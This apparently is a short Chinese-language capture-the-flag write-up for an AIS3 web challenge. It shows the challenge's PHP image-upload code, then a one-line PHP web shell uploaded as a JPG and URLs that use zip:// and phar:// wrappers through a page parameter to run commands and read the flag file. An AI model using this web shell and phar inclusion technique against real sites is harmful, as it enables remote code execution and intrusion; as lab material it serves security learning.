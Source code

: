 ```php=
        mkdir($dir);

    $newid = RandomString();
    $newpath = "$dir/$newid.jpg";
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $newpath))
    {
        header("Location: $newpath");
        exit();
    }
    else
    {
        echo "<center><p>Something bad happend, please contact the AIS3 admin to solve this</p></center>";
    }
}
?>

<!-- Page Content -->
<div class="container">
    <!-- Marketing Icons Section -->
    <div class="row">
        <form method="POST" enctype="multipart/form-data">
            <div class="form-group">
                <label class="control-label">Select a good Snoopy picture (JPG only)</label>
                <input id="input-1" name="fileToUpload" type="file" class="file">
            </div>
        </form>
    </div>
    <script>
    // initialize with defaults
    $("#input-1").fileinput();

    // with plugin options
    $("#input-1").fileinput({'showUpload':false, 'previewFileType':'any'});
    </script>
</div>

```
之前有看過一個用上傳圖片放shellcode的方法
就是把zip檔上傳，然後用zip打開，執行。
因此先寫個php shellcode
```php=
<?php system($_GET['cmd']);
```
上傳圖片後，可以得到上傳檔案的檔名``RFJXxhTug.jpg``
``https://quiz.ais3.org:23545/?p=zip://images/58.114.189.33/RFJXxhTug.jpg%23a&cmd=ls``
失敗
後來看到index 有檔zip字串
只好改成phar
``https://quiz.ais3.org:23545/?p=phar://images/58.114.189.33/RFJXxhTug.jpg/a&cmd=ls``
``https://quiz.ais3.org:23545/?p=phar://images/58.114.189.33/RFJXxhTug.jpg/a&cmd=cat%20the_flag2_which_the_filename_you_can_not_guess_without_getting_the_shellllllll1l``
拿到flag
